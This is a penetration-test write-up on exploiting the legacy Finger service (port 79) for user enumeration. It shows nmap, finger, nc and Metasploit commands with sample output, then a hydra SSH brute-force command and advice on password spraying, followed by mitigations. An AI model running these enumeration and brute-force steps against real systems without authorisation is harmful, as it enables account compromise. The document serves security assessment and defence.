 # 🧪 Finger Service Exploitation (Port 79)

**Type:** Internal Penetration Test  
**Service:** Finger (TCP/79)  
**Goal:** User Enumeration and Information Disclosure  
**Author:** NIKHIL  
 
---
## 📘 Overview

The Finger service is a legacy protocol that provides information about users on a remote system.  
When exposed, it allows unauthenticated user enumeration and can leak details such as home directories, login times, and shell paths — all of which are valuable for further exploitation.


## 🎯 Objectives

- Enumerate valid usernames via the Finger protocol.
- Extract user-specific information (login time, shell, etc.).
- Use discovered usernames for credential attacks (brute-force, spray).
- Demonstrate real-world risk and recommend mitigation.

---

## 🧰 Tools Used

| `finger`     | Manual user enumeration            |  
| `nc` (Ncat)  | Raw queries and banner grabbing    |  
| Metasploit   | Automated enumeration via wordlists|  
| `hydra`      | Password brute-forcing (post-enum) |  

---

## 📡 Finger Enumeration Methodology

### 🔍 Step 1: Service Detection
```
nmap -p 79 -sV 192.168.1.109
```
# 🔎 Step 2: Manual Finger Queries
```
finger admin@192.168.1.109
```
Login: admin         Name: Administrator
Directory: /home/admin     Shell: /bin/bash
Last login Thu Jul 4 09:12 (UTC) on tty1
```
nc -vn 192.168.1.109 79
```
# 🤖 Step 4: Automated Enumeration (Metasploit)
```
msfconsole
use auxiliary/scanner/finger/finger_users
set RHOSTS 192.168.1.109
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
run
```
[*] 192.168.1.109 - Found valid user: admin
[*] 192.168.1.109 - Found valid user: guest

#💣 Post-Enumeration Exploitation
🔐 SSH Brute Force (Example)
```
hydra -L users.txt -P rockyou.txt ssh://192.168.1.109
```
🔁 Credential Reuse / Password Spray

Use usernames with common passwords on other services like:

    FTP (port 21)
    SMB (port 445)
    RDP (port 3389)
    Web logins

📋 Vulnerability Summary
ID	Title	Severity	CWE	CVSS (Est.)
FINGER-001	User Enumeration via Finger	High	CWE-200 (Information Exposure)	6.5
🛠 Mitigation

    Disable Finger:
```
sudo systemctl stop finger
sudo systemctl disable finger
```
    Block Port 79 on firewalls (internal and external).
    Monitor for legacy services in production networks.
    Harden access to user data and remove unnecessary daemons.
🧩 Red Team Notes

    Finger leaks idle time → can infer user activity.
    Combine with:
       SNMP enum
        /etc/passwd via file leaks
        Kerberos-based attacks (e.g., ASREPRoast)
    Useful in lab networks, legacy systems, or CTF challenges.

📎 References

    RFC 742 - Finger Protocol
    Metasploit Docs - finger_users Module
    SecLists - Usernames List
